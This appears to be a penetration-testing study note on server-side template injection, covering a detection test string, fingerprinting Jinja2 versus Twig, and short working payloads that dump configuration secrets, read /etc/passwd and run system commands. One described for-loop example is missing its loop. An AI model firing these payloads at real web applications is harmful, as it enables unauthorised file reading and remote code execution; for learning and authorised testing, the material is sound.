- [Server-Side Template Injection (SSTI)](#server-side-template-injection-ssti)
  - [Templating](#templating)
  - [Identifying](#identifying)
    - [Confirming SSTI](#confirming-ssti)
    - [Identifying the Template Engine](#identifying-the-template-engine)
  - [Exploiting Jinja2](#exploiting-jinja2)
    - [Information Disclosure](#information-disclosure)
    - [LFI](#lfi)
    - [RCE](#rce)
  - [Exploiting Twig](#exploiting-twig)
    - [Information Disclosure](#information-disclosure-1)
    - [LFI](#lfi-1)
    - [RCE](#rce-1)

---

[SSTI cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

# Server-Side Template Injection (SSTI)

Web applications can utilize templating engines and server-side templates to generate responses such as HTML content dynamically. This generation is often based on user input, enabling the web application to respond to user input dynamically. When an attacker can inject template code, a SSTI vulnerability can occur. STTI can lead to various security risks, including data leakage and even full server compromise via remote code execution.

## Templating

> [!NOTE]
> An everyday use case for template engines is a website with shared headers and footers for all pages. A template can dynamically add content but keep the header and footer the same. This avoids duplicates instances of header and footer in different places, reducing complexity and thus enabling better code maintainability. Popular examples of template engines are Jinja and Twig.

Template engines typically require two inputs: a **template** and a **set of values** to be inserted into the template. The template can typically be provided as a string or a file and contains pre-defined places where the template engine inserts the dynamically generated values. The values are provided as key-value pairs so the template engine can place the provided value at the location in the template marked with the corresponding key. Generating a string from the input template and input values is called _rendering_.

Jinja template string example:

```jinja
Hello {{ name }}!
```

It contains a single variable called ```name```, which is replaced with a dynamic value during rendering. When the template is rendered, the template engine must be provided with a value for the variable ```name```. For instance, if you provide the variable ```name="vautia"``` to the rendering function, the template engine will generate the following string:

```bash
Hello vautia!
```

A more complex example:

```jinja

Hello {{ name }}!

```

The template contains a for-loop that loops over all elements in a variable ```names```. As such, you need to provide the rendering function with an object in the ```names``` variable that it can iterate over. For instance, if you pass the function with a list such as ```names=["vautia", "21y4d", "Pendant"]```, the template engine will generate the following string:

```bash
Hello vautia!
Hello 21y4d!
Hello Pedant!
```

## Identifying

### Confirming SSTI

The most effective way is to inject special characters with semantic meaning in template engines and observe the web app's behavior. As such, the following test string is commonly used to provoke an error message in a web app vulnerable to SSTI, as it consists of all special characters that have a particular semantic purpose in popular template engines:

```
${{<%[%'"}}%\.
```

Since the above test string should almost certainly violate the template syntax, it should result in an error if the web app is vulnerable to SSTI. This behavior is similar to how injecting a single quote into a web app vulnerable to SQLi can break an SQL query's syntax and thus result in an SQL error.

Legit string:



Using the test string:



While this does not confirm that the web application is vulnerable to SSTI, it should increase your suspicion that the parameter might be vulnerable.

### Identifying the Template Engine

To enable the successful exploitation of an SSTI vuln, you first need to determine the template engine used by the web application. You can utilize slight variations in the behavior of different template engines to achieve this. For instance, consider the following commonly used overview containing slight differences in popular template engines:



Example:



Since the payload was not executed, you follow the red arrow and now inject the payload ```{{7*7}}```.



This time, the payload was executed by the template engine. Therefore, you follow the green arrow and inject the payload ```{{7*'7'}}```.

> [!TIP]
> In Jinja the result will be **7777777**.<br>
> In Twig the result will be **49**.

## Exploiting Jinja2

### Information Disclosure

You can exploit the SSTI vulnerability to obtain internal information about the web application, including configuration details and the web application's source code. For instance, you can obtain the web application's configuration using the following payload:

```jinja
{{ config.items() }}
```



Since this payload dumps the entire web application configuration, including any used secret keys, you can prepare further attacks using the obtained information. You can also execute Python code to obtain information about the web application's source code. You can use the following payload to dump all available built-in functions:

```jinja
{{ self.__init__.__globals__.__builtins__ }}
```



### LFI

You can use Python's built-in function ```open``` to include a local file. However, you cannot call the function directly; you need to call it from the ```__builtins__``` dictionary you dumped earlier.

```jinja
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```



### RCE

To achieve remote code execution in Python, you can use functions provided by the ```os``` library, such as ```system``` or ```popen```. However, if the web application has not already imported this library, you must first import it by calling the built-in function ```import```.

```jinja
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```



## Exploiting Twig

### Information Disclosure

In Twig, you can use the ```_self``` keyword to obtain a little information about the current template:

```twig
{{ _self }}
```



However, the amount of information is limited compared to Jinja.

### LFI

Reading local files is not possible using internal functions directly provided by Twig. However, the PHP web framework Symfony defines additional Twig filters. One of these filters is ```file_excerpt``` and can be used to read local files:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```



### RCE

To achieve remote code execution, you can use a PHP built-in function such as ```system```. You can pass an argument to this function by using Twig's ```filter``` function.

```twig
{{ ['id'] | filter('system') }}
```



